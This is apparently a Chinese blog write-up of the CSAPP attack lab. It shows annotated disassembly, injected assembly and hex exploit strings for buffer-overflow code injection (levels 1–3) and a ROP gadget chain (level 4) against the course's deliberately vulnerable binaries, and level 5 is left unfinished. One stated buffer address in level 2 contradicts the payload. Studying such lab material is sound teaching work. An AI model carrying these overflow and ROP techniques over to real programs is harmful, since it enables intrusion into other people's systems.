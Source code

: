 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      深入理解计算机系统(CSAPP)_attack lab	# 标题 
#subtitle:   脚本，xss #副标题
date:       2020-07-16 				# 时间
author:     s-seven 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CSAPP
---
```


# attack lab

这一次的实验主要实现对程序漏洞的攻击

拿到手的文件有：

ctarget：一个容易遭受code injection攻击的可执行程序。 

rtarget：一个容易遭受return-oriented programming攻击的可执行程序。 

cookie.txt：一个8位的十六进制码，用于验证身份的唯一标识符。 

farm.c：目标“gadget farm”的源代码，用于产生return-oriented programming攻击。 

hex2raw：一个生成攻击字符串的工具。

* getbuf函数

```C
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

getbuf函数是一种不检查输入字符长度的函数，我们可以输入一个超出buffersize的字符串来向getbuf之外的栈帧写入数据

## 第一部分 代码注入攻击

### level 1

这个等级中我们只需要进行缓冲区溢出将函数重定向到我们需要的函数处，通过汇编代码看到缓冲区有0x28大小，只要将这40个字符随意填充，再输入touch1的地址就可以了，注意函数地址是小端序

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

touch1的函数地址为0x4017c0，所以填充的字符串为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

将字符串写入.txt文件中，用给的hexraw工具转换

[![UgJKn1.png](https://s1.ax1x.com/2020/07/18/UgJKn1.png)](https://imgchr.com/i/UgJKn1)

### level 2

```C
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) 
    {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else 
    {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    } 
    exit(0);
}
```

这个函数有一个参数，参数在cookie.txt中已给出，传入的参数放在%rdi寄存器中，

我们的注入代码：

```assembly
pushq $0x4017ec   ;touch2函数地址压栈，用于retq返回
movq  $0x59b997fa,%rdi   ;传参
retq
```

[![Ugt5pF.png](https://s1.ax1x.com/2020/07/18/Ugt5pF.png)](https://imgchr.com/i/Ugt5pF)

得到十六进制指令码，因为还是用getbuf输入的，所以仍然构造字符串，最后的缓冲区起始地址为rsp的0x55674e78

```
68 ec 17 40 00 48 c7 c7 
fa 97 b9 59 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
```

最后的结果为

[![UgNwH1.png](https://s1.ax1x.com/2020/07/18/UgNwH1.png)](https://imgchr.com/i/UgNwH1)

### level 3

```C
void touch3(char *sval){
    vlevel=3;
    if(hexmatch(cookie,sval)){
        printf("Touch3!: You called touch3(\"%s\")\n",sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n",sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val,char *sval){
    char cbuf[110];
    char *s = cbuf+random()%100;
    sprintf(s,"%.8x",val);
    return strncmp(sval,s,9) == 0;
}
```

在touch3中调用了hexmatch来比较输入的字符串和参数sval。

和上一关一样我们需要跳转到我们的注入代码首地址(注入代码首地址:0x5561dca0-0x28=0x5561dc78)，然后由注入代码将字符串数组首地址放在寄存器`%rdi`中，执行`retq`指令跳转到`touch3`函数(0x4018fa)

当前的`%rsp`为0x5561dca0,我们需要在之前写入参数(0x5561dca0+0x8(rsp中存8个字节))

16进制码为：

```
   0:   68 fa 18 40 00          pushq  $0x4018fa
   5:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   c:   c3                      retq 
```

构造的字符串为：

```
68 fa 18 40 00 48 c7 c7  <- 注入代码部分    0x5561dc78
a8 dc 61 55 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
78 dc 61 55 00 00 00 00  <- 栈顶rsp所在位置 0x5561dca0
35 39 62 39 39 37 66 61  <- 存放的字符串    0x5561dca8
```

## 第二部分 返回导向编程攻击

### level 4

和之前的level2 差不多，我们要给rdi附上cookie的值，然后将touch2 的地址放在最后，ret就会跳转到touch2处。

反汇编rtarget中的代码找到我们需要的部分，发现一段

```
00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3                      retq  
```

可以用到的指令为：

```
48 89 c7 movq %rax,%rdi
90       nop
c3       retq
```

还需要将值放入%rax中，可以用pop指令，找到

```
00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq  
```

可以用到

```
58 90 popq %rax
c3    retq
```

加上偏移得到我们需要的指令地址(0x4019ca+0x2=0x4019cc),(0x4019c3+0x2=0x4019c5)

构造字符串得

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00  <- 栈顶%rsp 填入数据0x4019cc
fa 97 b9 59 00 00 00 00  <- popq指令返回给%rax寄存器的数据
c5 19 40 00 00 00 00 00  <- retq返回到的地址(movq指令首地址)
ec 17 40 00 00 00 00 00  <- retq指令返回到touch2函数
```



### level 5

level 5不会。。。待补充